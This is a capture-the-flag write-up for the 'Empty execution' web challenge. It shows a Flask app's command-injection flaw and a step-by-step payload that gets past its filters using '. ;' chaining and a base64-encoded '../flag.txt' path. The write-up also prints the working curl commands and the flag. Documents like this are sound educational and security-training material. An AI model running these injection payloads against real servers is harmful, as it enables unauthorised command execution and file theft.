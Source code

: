 
### CTF: BRAEKERCTF


### Challenge:

- Empty execution [web]


### Challenge 1: Empty execution

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd88f21-d29a-4ada-a85a-36e21201fa20)

### Source Code:

```
from flask import Flask, jsonify, request
import os


app = Flask(__name__)

# Run commands from leaderbot
@app.route('/run_command', methods=['POST'])
def run_command():

    # Get command
    data = request.get_json()
    if 'command' in data:
        command = str(data['command'])

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

        # Find path to executable
        executable_to_run = command.split()[0]

        # Check if we can execute the binary
        if os.access(executable_to_run, os.X_OK):

            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

    return jsonify({'message': 'Not implemented'}), 501


if __name__ == '__main__':   
    # Make sure we can only execute binaries in the executables directory
    os.chdir('./executables/')
    # Run server
    app.run(host='0.0.0.0', port=80)
```

- The goal of this challenge is to read flag.txt.After reading the source code,I noticed that the webpage is vulnerable to command injection because the os method `popen` executes shell commands on the server.

  
            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

- This code changes directory to a directory named executables

       # Make sure we can only execute binaries in the executables directory
         os.chdir('./executables/')
  
### Security checks
- But the code filters some characters from the user input e.git raises an alert `Hacking attempt detected` if the user input contains '..' or '/'.It also raises a `command too short` error if the user input is lesser than 5 .

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

- Lastly, it uses the split() method to cut characters before `[space]`, tag it as the variable executable_to_run and use os.access() to check if the binary or executable can be executed.If it cannot be executed,it raises an error message `Not implemented`.
    
       # Check if we can execute the binary
            if os.access(executable_to_run, os.X_OK):
    
                # Execute binary if it exists and is executable
                out = os.popen(command).read()
                return jsonify({'message': 'Command output: ' + str(out)}), 200
    
        return jsonify({'message': 'Not implemented'}), 501

### Crafting a Payload

- The first step is to bypass the os.access() filter by ensuring that it returns True,I bypassed it with '. ' because the characters '.' and '..' are present in a linux directory.'.' is a link to your current directory and '..' is a link to the parent directory.I added space after '.' to allow the code split '.' and a couple of gibberish text to bypass the length check.
   
      $ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". zzzzz"}' -H 'Content-Type: application/json'                                                    
      {"message":"Command output: "}

- Now we can execute commands,but I placed ";" after the space to execute close the first statement and execute nother statement.The next step was to find binaries to read the flag.I was able to use `which` to locate binaries and it worked.The `which` binary is used to find binaries path.Using which to find base64 and echo binaries' path confirmed the existence of the binaries on the server.

      $ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". ;which base64;which echo"}' -H 'Content-Type: application/json'
      {"message":"Command output: /bin/base64\n/bin/echo\n"}

- Now we can craft a payload with base64 and echo,I was able to craft this payload `base64 $(echo 'Li4vZmxhZy50eHQK' | base64 -d)`.I encoded '../flag.txt' with base64 since flag.txt is not present in the current directory, we will need to move up one directory and .. and / are both filtered by the code.Echo pipes it to base64 which decodes it and the process is executed with $().Base64 can read files passed to it and return it in base64 encoded text.After that, the result of that will be transferred to `base64 -d` via a pipe to decode the base64 encoded flag.

       curl -X POST https://braekerctf-empty-execution.chals.io/run_command -d '{"command": ". ;echo $(base64 $(echo 'Li4vZmxhZy50eHQK' | base64 -d)) | base64 -d"}' -H 'Content-Type: application/json'
       {"message":"Command output: brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}"}

